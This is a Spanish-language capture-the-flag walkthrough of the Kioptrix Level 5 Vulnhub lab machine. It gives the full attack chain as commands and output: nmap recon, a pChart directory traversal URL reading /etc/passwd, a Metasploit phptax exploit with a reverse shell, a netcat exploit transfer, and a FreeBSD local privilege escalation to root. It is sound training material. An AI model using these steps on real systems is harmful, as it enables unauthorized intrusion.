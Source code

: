 ```yaml
---
weigth: 1
title: "Kioptrix Level 5 Walkthrough"
date: 2023-09-02T11:24:09+02:00
draft: false
author: Antu
publishDate: 2023-09-02
tags: ["Walkthrough", "Vulnhub", "TjNull", "OSCP", "Easy"]
categories: ["Vulnhub"]
images: []
resources:
- name: "featured-image"
  src: "preimagenKioptrix5.png"

lightgallery: true

toc:
  auto: false
---
```

# Kioptrix level 5

## Configuración

Para que la maquina asigne una ip hay que eliminar el adaptador de red y volver a añadirlo.

## Resolución
### Escaneo y nalisis de Vulnerabilidades
Comienzo haciendo un escaneo de la red local con arp-scan para descubrir la ip de la maquina objetivo.

```bash
arp-scan -I eth0 --localnet

-I -> indicamos la interfaz de red 
--localnet -> indicamos que genere direcciones desde la configuración de la interfaz.
```

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled.png)

Obtengo que la ip de mi objetivo es la 192.168.66.163, por lo que paso a realizar un escaneo de puertos con nmap.

```bash
nmap -p- --open  -T5 -n -Pn -vvv 192.168.66.163 -oN Target
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-31 15:46 EDT
Initiating ARP Ping Scan at 15:46
Scanning 192.168.66.163 [1 port]
Completed ARP Ping Scan at 15:46, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:46
Scanning 192.168.66.163 [65535 ports]
Discovered open port 80/tcp on 192.168.66.163
Discovered open port 8080/tcp on 192.168.66.163
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 9.90% done; ETC: 15:48 (0:01:31 remaining)
Completed SYN Stealth Scan at 15:47, 53.95s elapsed (65535 total ports)
Nmap scan report for 192.168.66.163
Host is up, received arp-response (0.00015s latency).
Scanned at 2023-08-31 15:46:49 EDT for 54s
Not shown: 65532 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
80/tcp   open  http       syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 00:0C:29:5B:14:9E (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 54.25 seconds
           Raw packets sent: 131110 (5.769MB) | Rcvd: 50 (2.410KB)
```

Observo que los puertos 80 y 8080 están abiertos, y paso a realizar un segundo escaneo mas especifico para obtener la versión de los servicios que corren.

```bash
──(root㉿kali)-[/home/kali/vulnhub/OSCP/kioptrix_level_5]
└─# nmap -p80,8080 -sCV 192.168.66.163                        
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-31 15:49 EDT
Nmap scan report for 192.168.66.163
Host is up (0.00040s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp open  http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:5B:14:9E (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.05 seconds
```

Tras revisar los resultados me fije en que la versión de mod_ssl/2.2.21 es vulnerable pero el exploit para esta vulnerabilidad no contiene una versión valida para FreeBSD apache 2.2.21 por lo que no funciono.

Después pase a revisar la web con el puerto 80.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%201.png)

Y al abrir el código fuente de la pagina descubrí una dirección url.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%202.png)

Al abrirla descubrí lo siguiente:

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%203.png)
### Explotación
Buscando lo que es phpchart supe que se trata de una librería de php para mostrar datos de texto de forma grafica.

Después busque si existe alguna vulnerabilidad para esta versión y di con la siguiente pagina.

[Exploiting pChart 2.1.3 (Directory traversal & XSS)](https://vk9-sec.com/exploiting-pchart-2-1-3-directory-traversal-xss/)

Leyendo veo que es vulnerable a directory traversal por lo que introduzco la siguiente dirección y obtengo el fichero /etc/passwd

```bash
http://192.168.66.163/pChart2.1.3/examples/index.php?Action=View&Script=/../../../../etc/passwd
```

Leyendo un poco mas la web descubro que los sistemas operativos FreeBSD tienen el archivo de configuración de Apache en la siguiente ruta por lo que paso a leerla.

```bash
/usr/local/etc/apache22/httpd.conf
```
![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%204.png)

Observando el resultado y tras intentar un log poison sin éxito veo que el fichero de configuración muestra un User-Agent permitido (Mozilla/4.0 Mozilla4 browser) y un virtualHost en el puerto 8080

A través de una extensión del navegador cambio el user agent

[https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher-revived/](https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher-revived/)

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%205.png)

Con el user agent cambiado realizo la búsqueda de la web con el puerto 8080 y veo lo siguiente.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%206.png)

hago clic en phptax y aparece la siguiente pagina.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%207.png)

Buscando un exploit para phptax encuentro los siguientes

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%208.png)

he decidido usar metasploit por lo que ejecutando la siguiente serie de comandos obtengo una shell.

```bash
#iniciamos metasploit
msfconsole -q
#buscamos el exploit
search phptax
#selecionamos el exploit
use 0
#configuramos
options
set RHOSTS 192.168.66.163
set RPORT 8080
show advanced
set UserAgent Mozilla/4.0 Mozilla4_browser
set payload payload/cmd/unix/reverse
set LHOST 192.168.66.152
set LPORT 4444
run
```
### Escalada de privilegios
Obtenemos una shell y enumeramos.

```bash
whoami
www
id
uid=80(www) gid=80(www) groups=80(www)
uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

Tras enumerar un poquito el siguiente paso que realice fue buscar si existe algún exploit para la versión de FreeBSD de la maquina.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%209.png)

Existe un exploit para escalar privilegios por lo que me lo descargo en mi maquina para después transferirlo a la maquina objetivo con netcat.

```bash
searchsploit -m freebsd/local/26368.c
  Exploit: FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/26368
     Path: /usr/share/exploitdb/exploits/freebsd/local/26368.c
    Codes: CVE-2013-2171, OSVDB-94414
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/vulnhub/OSCP/kioptrix_level_5/26368.c
```

Me pongo a la escucha en mi kali y me conecto desde la maquina objetivo para realizar la transferencia en el directorio /tmp.

```bash
#Kali
nc -lvp 4444 < 26368.c                            
listening on [any] 4444 ...

#kioptrix
nc -nv 192.168.66.152 4444 > 26368.c                                                                                                                                                                                                        
Connection to 192.168.66.152 4444 port [tcp/*] succeeded!
```

una vez transferido compilo el exploit y ejecuto obteniendo una shell como root

```bash
gcc 26368.c -o exploit
./exploit
whoami
root
id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
cat congrats.txt
If you are reading this, it means you got root (or cheated).
```
